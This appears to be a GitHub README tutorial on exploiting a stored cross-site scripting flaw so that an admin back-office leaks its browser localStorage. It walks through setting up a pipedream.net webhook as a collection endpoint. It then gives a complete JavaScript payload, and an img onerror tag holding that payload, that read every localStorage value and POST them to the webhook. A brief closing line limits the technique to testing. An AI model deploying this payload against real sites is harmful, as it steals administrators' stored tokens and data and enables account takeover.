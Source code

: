 <h1 align="center">XSS-attack-exposure</h1>
</br>

> `XSS-attack` vulnerability is one of the most popular `OWASP Top 10` vulnerabilities, and today we will observe how to get **Admin** side `localStorage` data using `XSS-attack` vulnerability issue
</br>

In our case, we have an input field and by clicking the `SUBMIT` button the entered data transfers to Backend, updates the corresponding table in the Database and then transfers to a BackOffice

</br>
</br>

<p align="center"><img src="https://github.com/da-vincis/XSS-attack-exposure/assets/139674525/198acd31-0097-4631-9a9f-c7c8404ae1ca"></p>


</br>

So in ideal case when we send any malicious script it should **not be** set in the Backend side as script and if it isn’t set as script it could not appear in the BackOffice as script and would not be executed.

</br>

To check for `XSS-attack` vulnerability we submit a simple `HTML` tag and set a non-existed src as a value for the `src` attribute and also we set a simple alert as a value for `onerror` attribute, so when we get an error for the non-existed src, the `script` in the onerror will be executed

</br>

<p align="center"><img src="https://github.com/da-vincis/XSS-attack-exposure/assets/139674525/ae4aacd5-fa62-4bf1-8c5b-e89741f63e96"></p>

</br>

As it is shown in the screenshot bellow the submitted `HTML` tag is set in the `HTML` of the Web site

</br>

<p align="center"><img src="https://github.com/da-vincis/XSS-attack-exposure/assets/139674525/0acfa37d-e055-487e-acb0-c01159d40eb0"></p>

</br>

It means that there is an **`XSS-attack`** vulnerability, and now that we know it let’s try to get `localStorage` data from the BackOffice. 

</br>

For getting `localStorage` data from the BackOffice, we need to develop a script that will get `localStorage` data and send it in the body of the `POST` request, and also we need some endpoint `URL` to request our call to that endpoint `URL`.

</br>

In our case we will be using `https://pipedream.com/` Web site because it has a great feature which name is `HTTP / Webhook`, it generates a unique endpoint `URL` and whenever a request is made to that endpoint `URL` we can see that request with all information provided.

</br>

_Below are shown the steps on how to create an endpoint `URL` in the `https://pipedream.com/` Web site, we observe the case in which the precondition is the already created account in that Web site_

</br>

> **Steps:**
> 1.	Open https://pipedream.com/ and log in
> 2.	Click "New" in the top-right side of the Web page
> 3.	Click "HTTP / Webhook" button
> 4.	Click for example "HTTP Requests with a Body"
> 5.	Choose "Event Data" ---> "Full HTTP request", "HTTP Response" ---> 'Return a custom response from your workflow'
> 6.	Click "Save and continue" button
> 7.	Copy the unique URL
> 8.	Past the unique URL in the URL section of the request
> 9.	Send any request to that URL

</br>

<p align="center"><img src="https://github.com/da-vincis/XSS-attack-exposure/assets/139674525/b1599a6a-43ea-4bd3-a686-afed67ca934f"></p>

</br>

We have created an endpoint `URL` so let’s develop a script to make a `POST` request to that `URL`.

</br>

We will be using `JavaScript` call back function which will include the `XMLHttpRequest` object for creating a `POST` request. 

_For creating a variable we will be using `var` declaration so we will know that any version of the browser will accept it_

</br>

_See the developed script for exposure in the `exposureAttack.js` file in the same repository_

</br>

#### Javascript　

``` javascript
(function() {
  var values = []; // creates an empty array, so the localStorage data will be set in it

  keys = Object.keys(localStorage); // gets all the keys of the data stored in the localStorage

  var i = keys.length; // assigns length of the keys to i varriable

  while(i--) { // as far as the loop is true, the keys.length is positive, the script in the loop will execute
 
  values.push(localStorage.getItem(keys[i]) ); // every time the loop is true we push values of the localStorage into created 'values' array

  }

// when the loop is executed and we have the array with data of localStorage, we need to make a POST request to our unique endpoint URL

  var xmlHttp = new XMLHttpRequest(); // creates a new XMLHttpRequest object and assigns it

  xmlHttp.open("POST","https://{unique data of the generated URL}.m.pipedream.net",false);

  xmlHttp.send(values); // We already have data of the localStorage, so we make POST request to our endpoint URL and send 'values' array in the body of the request, xmlHttp.send(values)

})(); // the () automatically calls the function

```

</br>

We have developed a function to get `localStorage` data and make a `POST` request to an endpoint `URL`,
now we need to put the developed function as a value of the **`onerror`** `HTML` attribute

</br>

#### HTML

```html
<img src='nonexistent-image.jpg' onerror='(function() { var values = []; keys = Object.keys(localStorage); i = keys.length; while(i--) { values.push(localStorage.getItem(keys[i]) ); }
var xmlHttp = new XMLHttpRequest(); xmlHttp.open("POST","https://eocze95suett51c.m.pipedream.net",false); xmlHttp.send(values);
})();'>


```

</br>

So now when the `img` HTML tag is submitted and whenever the submitted message is opened from the BackOffice the callback function in `onerror` attribute will be executed and we will get the `POST` request with `localStorage` data body in the `https://pipedream.com/` Web site

</br>

<p align="center"><img src="https://github.com/da-vincis/XSS-attack-exposure/assets/139674525/e7ab8b7d-23cd-40d3-9f43-d49a5897280e"></p>

</br>

_Now you know how to use XSS-attack vulnerability to get data from a localStorage_

</br>

<h3 align="center">Attention: Use the technique only for testing purposes, Cybercrimes are also crimes</h3>

</br>
